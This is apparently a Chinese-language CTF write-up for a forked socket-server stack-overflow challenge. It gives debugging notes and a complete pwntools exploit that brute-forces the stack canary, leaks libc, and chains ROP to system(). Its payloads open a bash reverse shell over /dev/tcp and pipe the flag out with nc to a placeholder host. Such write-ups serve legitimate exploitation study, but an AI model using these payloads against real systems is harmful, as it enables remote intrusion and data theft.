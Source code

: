 ```yaml
---
layout: post
title: "cookie爆破"
date: 2018-05-23
categories: jekyll update
---
```

### level6_cookie


这是一个简单的**socket服务器栈溢出**的题目
##### 溢出漏洞点
<img src="/images/posts/keen/1530851457324.png" >
**特点：fork子程序，从同一片内存申请，cookie值一样，可以爆破**

**这里本地调试需要先创建一个具有root权限的level6，然后用该用户来执行该程序，注意这里需要先起一个服务器，然后再nc连上去进行调试**

##### 一些小知识点和疑问
```
TCP反连；nc反弹shell：cat flag | nc xxx.xxx.xx.xx 8888
关于反弹shell的一些资料参考：
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.gnucitizen.org/blog/reverse-shell-with-bash/
疑问：为什么cookie会距离ebp有12byte这么远？
尝试解答：是不是这个ebp是主函数main的，而不是子函数的。所以中间还隔了一个子函数的ebp
SIGCHLD
进程Terminate或Stop的时候，SIGCHLD会发送给它的父进程。缺省情况下该Signal会被忽略
```

##### 调试用到的命令：
```
print system #看泄露出来的地址是否与链接库的地址相同
info proc   #查看进程号
cat /home/level6/9441/fd  #查看fd可能的值(标准输入/出和默认值)
ROPgadget --binary cookie #查找ROP
ps -aux | grep cookie #查看当前运行进程
info proc all  #查看一些程序运行的信息
set follow-fork-mode child  #fork之后调试子进程，父进程不受影响。
上面一条命令参考链接：https://www.ibm.com/developerworks/cn/linux/l-cn-gdbmp/index.html
```
##### 做题过程中遇到的问题和解决办法
+  对C语言写的socket不熟悉，需要去了解其中的流程(但其实对解题没太大的影响)
+  主要是这里用到了fork子进程来进行执行输入的，所以每次输入都会从同一个内存片段去取cookie(只要这个进程没断就是从同一片内存中取值)
+  一段时间没做题，调试起来有点生疏，调试的时候注意考虑下断点的位置，然后逐步ni单步查看执行的整个流程是否符合我们设置的跳转
+  这次调试不出来主要是参数个数问题，c语言里面没有默认参数为0这个说法，需要查好调用每一个函数的参数个数和值进行一一配置。
+  不必要的send多次payload可以通过ROP连接起来，灵活利用，灵活操作。

##### 本题主要思路
+ 配置好本地调试的服务器环境(具有root权限的level6)
+ 爆破cookie
+ 确定溢出位置和溢出长度
+ 泄露send地址
+ 确定下断点位置：0x08048C47进行调试
+ 找到一个可写的地址，通过recv接收数据写到那个地址上，再把该地址作为参数给到system来调用即可getshell

##### 具体详细代码
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'

IP = '192.168.210.11'
#IP = '192.168.23.130'
PORT = 10006
NORMAL_RET_ADDR = 0x804897b
TEST_FINI = 0x8048fc0

canary = "\x00"
padding = "a"*64
"""
for x in xrange(3):
    for y in xrange(256):
        with remote(IP, PORT) as p:
            if y == 10:
                continue
            p.send(padding+canary+chr(y) + chr(10))
            try:
                info = p.recvuntil('GoodBye')
		p.close()
		break
            except Exception as e:
                print('exception %s' % e)
		p.close()
                continue
    print('got single byte %x' % y)
    canary += chr(y)
print "cookie bruteforce complete with cookie = " + hex(u32(canary))
"""
canary = p32(0xb28dff00)
#canary = p32(0xc6586e00)
p = remote(IP, PORT)
libc = ELF('libc.so.6')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('cookie')
send_plt = elf.plt['send']
send_got = elf.got['send']
vuln_addr = 0x0804897B
payload1 = 'a'*64 + canary +'a'*12 + p32(send_plt) + p32(0) + p32(4) + p32(send_got) + p32(4) + p32(0)
p.sendlineafter('Would you like some cookie?\n', payload1)
#0xb7587000
#p.recvline()
#p.recv()
recved = p.recv()
#print(recved)
print(len(recved))
send_addr = u32(recved)
p.info('send addr %x' % send_addr)

libc_base = send_addr - libc.symbols['send']
p.info('libc base %x' % libc_base)

system_addr = libc_base + libc.symbols['system']
system_cmd = 'ls'
p.info('system addr %x' % system_addr)
recv_plt = elf.plt['recv']
writable_addr = 0x804b07c

p = remote(IP, PORT)
pause()
payload2 = 'bash -i >& /dev/tcp/xxx.xxx.xx.xx/8888 0>&1'.ljust(64, '\x00') + canary + 'a' * 12 + p32(recv_plt) + p32(system_addr) + p32(4) + p32(writable_addr) + p32(100) + p32(0)
'''
payload2 = 'bash -i >& /dev/tcp/xxx.xxx.xx.xx/8888 0>&1'.ljust(64, '\x00') + canary + 'a' * 12 + p32(recv_plt) + p32(0x08048fb8) + p32(4) + p32(writable_addr) + p32(100) + p32(0) + p32(system_addr) + p32(0) + p32(writable_addr)
'''
p.sendlineafter('Would you like some cookie?', payload2)
p.send('cat flag | nc xxx.xxx.xx.xx 8888'.ljust(100, '\x00'))


payload3 = 'a' * 64 + canary + 'a' * 12 + p32(system_addr) + p32(0) + p32(writable_addr)
p.info('system %x' % system_addr)
p.close()
p = remote(IP, PORT)
p.sendlineafter('Would you like some cookie?', payload3)
#p.interactive()

```